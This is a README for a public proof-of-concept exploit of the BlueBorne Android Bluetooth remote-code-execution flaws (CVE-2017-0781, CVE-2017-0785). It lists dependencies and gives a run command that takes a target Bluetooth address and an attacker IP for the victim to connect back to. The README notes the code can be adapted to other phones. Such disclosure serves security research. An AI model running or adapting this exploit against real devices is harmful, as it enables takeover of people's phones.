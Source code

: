 BlueBorne Android Exploit PoC
=============================

This directory contains a PoC code of BlueBorne's Android RCE vulnerability (CVE-2017-0781).
It also uses the SDP Information leak vulnerability (CVE-2017-0785) to bypass ASLR.
It achieves code execution on a Google Pixel Android smartphone running version 7.1.2 with Security Patch Level July or August 2017.
This code can also be altered a bit in order to target other Android smartphones.

For more details on BlueBorne, you may read the full technical [white paper](https://www.armis.com/blueborne/) available.

In addition a detailed blog post on the exploitation of this vulnerability is available [here](https://www.armis.com/blueborne-on-android-exploiting-rce-over-the-air/).


## Dependencies

###pip2 packages

- pybluez 
- pwn 
- A CSR USB bluetooth adapter. We need to change the MAC address, and so we use a vendor specific `HCI` command to do this for the CSR bluetooth adapter.
- An alternative adapter can also be used - the only thing to alter is the `set_rand_bdaddr` function.

###Installation of dependencies
 
```
sudo apt-get install libbluetooth-dev
sudo pip2 install pybluez pwn
```


###To run:

    sudo python2 doit.py hci0 <target-bdaddr> <attacker-ip>

IP needs to be accessible from the victim (should be the IP of the machine that runs the exploit)



